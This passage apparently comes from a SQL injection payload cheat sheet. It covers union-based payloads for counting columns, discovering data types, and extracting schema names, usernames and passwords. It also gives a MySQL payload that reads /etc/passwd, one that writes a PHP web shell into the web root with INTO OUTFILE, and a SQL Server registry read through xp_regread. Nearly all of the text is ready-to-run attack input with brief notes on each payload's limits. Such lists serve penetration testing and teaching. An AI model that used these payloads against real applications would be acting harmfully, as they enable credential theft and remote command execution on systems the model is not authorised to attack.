 **Documentation**: Microsoft SQL Server time-based injection using WAITFOR DELAY command.
**Limitations**: Requires SQL Server; easily detected by monitoring; may cause application timeouts.

## Union-Based SQL Injection

### Advanced Union-Based Payloads
```sql
-- Determining Column Count
' ORDER BY 1-- -
' ORDER BY 2-- -
' ORDER BY 3-- -
' UNION SELECT NULL-- -
' UNION SELECT NULL,NULL-- -
' UNION SELECT NULL,NULL,NULL-- -

-- Data Type Discovery
' UNION SELECT 'a',NULL,NULL-- -
' UNION SELECT NULL,'a',NULL-- -
' UNION SELECT NULL,NULL,'a'-- -
' UNION SELECT 1,NULL,NULL-- -

-- Database Information Extraction
' UNION SELECT VERSION(),DATABASE(),USER()-- -
' UNION SELECT NULL,table_name,NULL FROM information_schema.tables WHERE table_schema=database()-- -
' UNION SELECT NULL,column_name,NULL FROM information_schema.columns WHERE table_name='users'-- -
' UNION SELECT NULL,username,password FROM users-- -
```

**Documentation**: Combines malicious query results with legitimate query output for direct data extraction.
**Limitations**: Requires compatible column count and data types; easily detected by WAFs.

### Advanced Union Techniques
```sql
-- Concatenation for Data Extraction
' UNION SELECT NULL,CONCAT(username,':',password),NULL FROM users-- -
' UNION SELECT NULL,GROUP_CONCAT(table_name),NULL FROM information_schema.tables WHERE table_schema=database()-- -

-- File System Access (MySQL)
' UNION SELECT NULL,LOAD_FILE('/etc/passwd'),NULL-- -
' UNION SELECT NULL,'<?php system($_GET[\"cmd\"]); ?>',NULL INTO OUTFILE '/var/www/html/shell.php'-- -

-- Registry Access (SQL Server)
'; EXEC xp_regread 'HKEY_LOCAL_MACHINE','SYSTEM\CurrentControlSet\Services\MSSQLSERVER','ObjectName'-- -
```

**Documentation**: Advanced union-based techniques for file system access and system interaction.
**Limitations**: Requires specific privileges; file path permissions; may be disabled by security settings.
